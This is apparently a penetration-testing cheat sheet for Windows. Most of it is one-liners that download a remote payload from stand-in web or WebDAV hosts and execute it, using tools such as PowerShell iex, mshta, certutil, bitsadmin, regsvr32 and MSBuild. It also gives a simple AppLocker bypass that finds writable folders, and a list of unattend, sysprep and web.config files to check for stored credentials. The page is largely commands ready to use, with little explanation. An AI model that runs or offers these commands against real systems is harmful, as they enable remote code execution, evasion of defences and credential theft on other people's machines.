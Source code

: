 ## Download Payload & execute in Memory
powershell -exec bypass -c “(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr(‘http://webserver/payload.ps1’)|iex”

mshta vbscript:Close(Execute(“GetObject(“”script:http://webserver/payload.sct””)”))
mshta \\webdavserver\folder\payload.hta
mshta http://webserver/payload.hta
Payload written on disk: IE local cache

wmic os get /format:”https://webserver/payload.xsl

certutil -urlcache -split -f http://webserver/payload payload

bitsadmin /rawreturn /transfer getpayload http://IP/nc.exe nc.exe

cmd.exe /k < \\webdavserver\folder\batchfile.txt

cscript //E:jscript \\webdavserver\folder\payload.txt
Payload written on disk: WebDAV client local cache

regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
Payload written on disk: IE local cache

odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
Payload written on disk: WebDAV client local cache

cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
Payload written on disk: WebDAV client local cache

> IE local cache
> C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
> C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
> 
> UNC Path pointing to WebDAV / WebDAV client local cache:
> C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV
{.is-info}


Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Applocker bypass - Poor man's method
**Check for write/execute permission**
C:\Windows\Tasks
C:\Windows\Temp
C:\Windows\tracing

**Find write/execute permissions**
icacls c:\*. /findsid [USERNAME] /t /c /l
=> Sometimes C:\Windows has to be specified again
icacls c:\Windows\ /findsid [USERNAME] /t /c /l

## Check files / folders in case of automated imaging/setup 
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windowds\system32\sysprep\sysprep.xml
C:\Windows\Microsoft.NET\Framework64\vxxxx\Config\web.config
C:\inetpub\wwwroot\web.config
